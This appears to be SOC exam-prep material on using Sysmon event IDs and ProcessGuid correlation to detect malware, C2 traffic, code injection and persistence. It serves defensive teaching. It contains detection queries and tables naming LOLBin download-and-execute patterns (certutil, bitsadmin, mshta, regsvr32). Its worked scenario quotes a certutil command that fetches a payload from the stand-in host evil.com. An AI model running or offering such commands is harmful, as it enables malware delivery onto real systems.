



# Leveraging Sysmon for Malware and C2 Detection

## TCM Exam Objectives

- Correlate Sysmon Event IDs 1, 3, 7, 8, 10, 11, 13, and 22 for full kill chain reconstruction
- Use ProcessGuid to pivot across event types and build the attack timeline
- Detect LOLBin abuse and anomalous parent-child relationships via Event ID 1
- Identify C2 beaconing patterns using Event ID 3 and Event ID 22
- Detect code injection via CreateRemoteThread and ProcessAccess targeting lsass.exe
- Identify persistence mechanisms via File Create and Registry Value Set events
- Analyze DNS queries for DGA domains, DNS tunneling, and malicious domain resolution
- Write PowerShell and KQL queries to extract and correlate Sysmon events
- Reconstruct a complete malware infection chain from process creation to persistence

Sysmon (System Monitor) provides kernel-mode telemetry that turns endpoint activity into a forensic narrative. Its kernel driver captures process creation, network connections, DLL loads, registry operations, file creation, and DNS queries, all linked by the ProcessGuid identifier. This enables analysts to correlate a single malicious process across every action it took---execution, communication, persistence, and file manipulation---making Sysmon the definitive tool for reconstructing malware infections and C2 communication in SOC investigations.

- Complete Sysmon event ID reference (1-25) for malware detection
- ProcessGuid correlation across all event types
- Process creation analysis for LOLBin abuse and anomalous parent-child patterns
- Network Connect (3) and DNS Query (22) for C2 detection
- CreateRemoteThread (8) and ProcessAccess (10) for code injection
- Registry (12/13) and File Create (11) for persistence identification



## Core Sysmon Event IDs

| Event ID | Name | Forensic Value |
|----------|------|----------------|
| **1** | Process Create | Full command line, parent, hashes, integrity level |
| **2** | File Creation Time Changed | Timestomping detection |
| **3** | Network Connect | Outbound TCP/UDP with process attribution |
| **5** | Process Terminate | Run duration calculation |
| **7** | Image Loaded | DLL hijacking detection |
| **8** | CreateRemoteThread | Code injection classic signature |
| **10** | ProcessAccess | Credential dumping (lsass access) |
| **11** | File Create | Dropped payloads, persistence files |
| **12** | Registry Key/Value Create/Delete | New ASEPs, service keys |
| **13** | Registry Value Set | Run key modification, service hijacking |
| **15** | File Create Stream Hash | Alternate Data Stream detection |
| **17** | Pipe Created | Named pipe C2 channels |
| **18** | Pipe Connected | Pipe communication |
| **22** | DNS Query | Domain resolution, DGA detection |
| **23** | File Delete | Self-deletion, shadow copy deletion |
| **25** | Process Tampering | Advanced injection detection |

> 📌 **Exam Tip:** ProcessGuid is the single most important field in Sysmon for attack chain reconstruction. Unlike PID (which the OS recycles), ProcessGuid follows a process instance across its entire lifetime and across all event types. On the PSAA exam, when asked how to link a process's network connections to its file drops to its registry changes, the answer is always: pivot on ProcessGuid. Copy it from Event ID 1 and filter Events 3, 11, and 13 by that GUID.

## Process Creation Analysis (Event ID 1)

### Anomalous Parent-Child Detection

| Parent -> Child | Attack Stage |
|----------------|--------------|
| `winword.exe` -> `cmd.exe` / `powershell.exe` | Macro delivery |
| `wscript.exe` -> `powershell.exe` | Script download |
| `svchost.exe` -> `cmd.exe` / `powershell.exe` | Service injection |
| `services.exe` -> process from `%TEMP%` | Malicious service |
| `explorer.exe` -> binary from `%TEMP%` | User-executed malware |

### Suspicious Command Lines

```kusto
Sysmon | where EventID == 1
| where CommandLine contains "certutil -urlcache"
   or CommandLine contains "bitsadmin /transfer"
   or CommandLine contains "powershell -EncodedCommand"
   or CommandLine contains "rundll32.exe javascript"
   or CommandLine contains "mshta.exe http"
   or CommandLine contains "regsvr32.exe /s /u /i:http"
```

## C2 Detection (Event IDs 3 and 22)

### Network Connect (Event 3)

Detect outbound connections to non-standard ports from suspicious processes. Correlate with Event 1 via ProcessGuid to identify the command line that initiated the connection.

```kusto
// External connections on suspicious ports
Sysmon
| where EventID == 3
| where DestinationPort in (4444, 1337, 8080, 8443, 5555, 6666)
| where not(ipv4_is_private(DestinationIp))
| project UtcTime, Image, DestinationIp, DestinationPort, ProcessGuid
```

> 📌 **Exam Tip:** DNS Query (Event 22) and Network Connect (Event 3) should always be analyzed together. Malware first resolves its C2 domain (Event 22), then connects to the resolved IP (Event 3). Correlating these two events via ProcessGuid reveals the full C2 communication pattern. Look for DNS queries to newly registered domains, DGA-generated names, or unusually long subdomains that indicate DNS tunneling.

### DNS Query (Event 22)

Record every domain a process resolves. Correlate with Event 3 to see what IP was used after resolution. Detect DGA domains, known malicious domains, and DNS tunneling.

```kusto
// Correlate DNS with network connect
let SuspiciousProcess = Sysmon
    | where EventID == 22
    | where QueryName contains "evil.com"
    | project ProcessGuid;
Sysmon
    | where EventID == 3 and ProcessGuid in (SuspiciousProcess)
    | project UtcTime, Image, DestinationIp, DestinationPort
```

## Code Injection Detection (Event IDs 8, 10, 7)

### CreateRemoteThread (Event 8)

One process creates a thread in another. Classic injection signature. Look for unsigned processes creating threads in lsass.exe (credential dumping) or script interpreters injecting into explorer.exe.

### ProcessAccess (Event 10)

One process opens another with specific access rights. Access flags `PROCESS_CREATE_THREAD` (0x0002), `PROCESS_VM_WRITE` (0x0020), `PROCESS_VM_OPERATION` (0x0008) targeting lsass.exe indicate credential dumping.

### Image Loaded (Event 7)

DLL loaded by a process. Detect unsigned DLLs loaded by signed Microsoft processes, or DLLs loaded from `%TEMP%` or `%APPDATA%`.

## Persistence Detection (Event IDs 11, 12, 13, 23)

| Event ID | Detection Target |
|----------|------------------|
| 11 | Files written to Startup folder, Temp |
| 13 | Run key modifications, service ImagePath changes |
| 12 | New service or Run key creation |
| 23 | Malware self-deletion, shadow copy deletion |

## ProcessGuid Correlation Workflow



### Step-by-Step

1. Find suspicious Event ID 1 -> note ProcessGuid
2. Search Event ID 3 with that GUID -> network destinations
3. Search Event ID 22 with that GUID -> DNS queries
4. Search Event ID 11 with that GUID -> dropped files
5. Search Event ID 13 with that GUID -> registry changes
6. Search Event ID 7 with that GUID -> loaded DLLs
7. Search Event ID 8/10 with that GUID -> injection indicators

### PowerShell Queries

```powershell
# Process creation with specific parent
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object { $_.Properties[20].Value -like "*winword.exe" }

# Network connections for a ProcessGuid
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=3]]" |
    Where-Object { $_.Properties[4].Value -eq "{GUID}" }

# DNS queries for a ProcessGuid
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=22]]" |
    Where-Object { $_.Properties[4].Value -eq "{GUID}" }

# Registry modifications to Run keys
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=13]]" |
    Where-Object { $_.Properties[8].Value -like "*CurrentVersion\\Run*" }
```

<details>
<summary>Hands-On: Full Attack Chain Reconstruction</summary>

**Alert**: Sysmon rule "winword.exe spawned cmd.exe which spawned certutil.exe" on HOST01.

**Event 1**: winword.exe (PID 1234) -> cmd.exe (PID 5678) with ProcessGuid A. Command: `cmd /c certutil -urlcache -f http://evil.com/payload.exe %TEMP%\payload.exe`

**Event 1**: certutil.exe (PID 9012) with ProcessGuid B, child of GUID A.

**Event 3**: GUID B -> evil.com:80

**Event 11**: GUID B creates `C:\Users\brolf\AppData\Local\Temp\payload.exe`

**Event 1**: payload.exe (PID 3456) with ProcessGuid C

**Event 13**: GUID C sets Run key `HKCU\...\Run\Updater` = `%TEMP%\payload.exe`

**Chain**: WINWORD.EXE -> cmd.exe -> certutil.exe -> payload.exe -> Run key persistence
</details>

## Quick Reference

### Top Event IDs for SOC

| ID | Name | Primary Use |
|----|------|-------------|
| 1 | Process Create | Process tree, command lines |
| 3 | Network Connect | C2 connections, exfiltration |
| 7 | Image Loaded | DLL hijacking, injection |
| 8 | CreateRemoteThread | Code injection |
| 10 | ProcessAccess | Credential dumping |
| 11 | File Create | Dropped payloads |
| 13 | Registry Value Set | Run keys, services |
| 22 | DNS Query | Domain resolution, DGA |

### ProcessGuid Correlation Steps

1. Find suspicious Event 1 -> note ProcessGuid
2. Search Event 3 with that GUID -> network destinations
3. Search Event 22 with that GUID -> DNS queries
4. Search Event 11 with that GUID -> dropped files
5. Search Event 13 with that GUID -> registry modifications
6. Search Event 7 with that GUID -> loaded DLLs

### LOLBin Command-Line Patterns

| Command | Purpose |
|---------|---------|
| `certutil -urlcache -f http://...` | Download payload |
| `bitsadmin /transfer ...` | Download payload |
| `mshta.exe http://...` | Execute remote script |
| `rundll32.exe javascript:"...` | Execute JavaScript |
| `powershell -EncodedCommand ...` | Obfuscated PowerShell |
| `regsvr32.exe /s /u /i:http://... scrobj.dll` | COM scriptlet execution |



## Recap

Sysmon's ProcessGuid enables correlation of process creation (Event 1), network connections (Event 3), DNS queries (Event 22), file creation (Event 11), registry changes (Event 13), DLL loads (Event 7), and code injection (Event 8/10) into a single attack narrative. Event 1 identifies anomalous parent-child relationships and suspicious command lines including LOLBin abuse. Events 3 and 22 detect C2 beaconing via external connections on high ports and DGA domain resolution. Events 8 and 10 detect credential dumping targeting lsass.exe. Events 11 and 13 reveal persistence via startup folder files and Run key modifications.
